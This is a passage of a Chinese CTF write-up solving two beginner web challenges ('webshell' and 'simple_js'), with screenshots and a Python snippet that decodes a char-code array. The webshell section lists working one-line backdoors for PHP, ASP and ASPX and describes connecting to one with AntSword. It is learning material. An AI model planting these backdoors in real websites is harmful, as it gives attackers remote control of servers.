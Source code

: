   ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/xff_referer/M9MHWII6E%2841I0Y8Z%7BB%7DQPW.png)
  
- ## webshell

  ------

  这道题考的是webshell，诶，你不知道什么是webshell吗？webshell就是web下的shell ，也就是web网站的后门。

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/webshell/%5D3B~6AJ6BIRTDI62TL%5BH9PY.png)

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/webshell/FW8AU7XJALI0HR1%29RZ4%7B%7BQW.png)

  页面已经给出我们shell，也是常用的php一句话木马

  同时常用的一句话木马有：

  ```
  php的一句话木马： <?php @eval($_POST['pass']);?>
  asp的一句话是：   <%eval request ("pass")%>
  aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
  ```

  给出连接密码webshell，那我们直接蚁剑连接就好

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/webshell/Z5%25II2N4%254R~%29R8DY~%405AN4.png)

  然后连接到后台，在里面找到flag文件，打开获取flag即可~

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/webshell/%5DS%244%25EXCQ1PS03D%5B%7DCP5%7DDL.png)

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/webshell/Z5%25II2N4%254R~%29R8DY~%405AN4.png)

  
  
- ## simple_js

  ------

  打开题目，题目名字告诉我们和js有关，这让我着实慌了一会，因为我对js没有怎么去学过。

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/simple_js/%28A4HX0%24I98LMS1_M%60%5BD2OEA.png)

  打开页面后弹出一个输入密码的框，乱输一阵，哈哈嗝。

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/simple_js/ZX%40BKAX1E%7DD3IZWJ%25%25DQ4IM.png)

  返回一段英文，显示告诉我们这是假密码，我们去找一下有没有东西，诶，发现了！我们尝试审计一下代码

  ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cweb/simple_js/K%25%29ZR5%25N%24XC236QA~5FVBMB.png)

  发现定义了一些参数和好像有点多余的for循环，好吧，有点迷，最后一个弹窗也是和前面定义的参数毫无关系。不过发现有个可疑的变量和dechiffre后面跟着的字符串。尝试解码一下pass，这变量名字不错，希望有点用。

  ```python
  x=[70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65]
  
  for i in x:
      print(chr(i),end="")
  ```
